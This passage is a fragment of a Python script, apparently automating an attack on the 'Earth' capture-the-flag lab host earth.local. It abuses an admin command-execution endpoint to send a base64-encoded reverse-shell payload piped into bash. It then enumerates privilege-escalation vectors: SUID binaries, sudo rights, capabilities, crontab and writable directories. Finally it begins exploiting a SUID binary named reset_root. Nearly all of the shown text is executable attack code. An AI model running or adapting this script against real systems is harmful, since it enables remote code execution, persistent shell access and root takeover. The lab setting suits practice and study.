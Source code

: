 ```python
                bypass_cmd = f"echo '{encoded_payload}' | base64 -d | bash"
                
                try:
                    response = self.session.post(execute_url, data={"command": bypass_cmd}, timeout=5)
                    time.sleep(3)
                    self.log("Reverse shell payload sent", "SUCCESS")
                    return True
                except:
                    continue
            
            self.log("All reverse shell attempts failed", "ERROR")
            return False
            
        except Exception as e:
            self.log(f"Reverse shell setup failed: {e}", "ERROR")
            return False
    
    def find_privilege_escalation(self):
        """Phase 5: Find privilege escalation vectors"""
        self.log("Phase 5: Searching for privilege escalation", "INFO")
        
        try:
            execute_url = f"http://earth.local/admin/execute"
            
            # SUID enumeration
            suid_cmd = "find / -perm -4000 -type f 2>/dev/null"
            response = self.session.post(execute_url, data={"command": suid_cmd})
            
            if "reset_root" in response.text:
                self.log("Found vulnerable SUID binary: reset_root", "SUCCESS")
                return True
            
            # Other privilege escalation checks
            priv_checks = [
                "sudo -l",
                "getcap -r / 2>/dev/null",
                "cat /etc/crontab",
                "find / -writable -type d 2>/dev/null"
            ]
            
            for check in priv_checks:
                response = self.session.post(execute_url, data={"command": check})
                self.log(f"Executed: {check}", "INFO")
            
            return True
            
        except Exception as e:
            self.log(f"Privilege escalation search failed: {e}", "ERROR")
            return False
    
    def exploit_suid_binary(self):
        """Phase 6: Exploit SUID binary"""
        self.log("Phase 6: Exploiting SUID binary", "INFO")
        
        try:
            execute_url = f"http://earth.local/admin/execute"
            
            # Create required files
            setup_commands = [
                "touch /dev/shm/kHgTFI5G",
                "touch /dev/shm/Zw7bV9U5", 
                "touch /tmp/kcM0Wewe"
```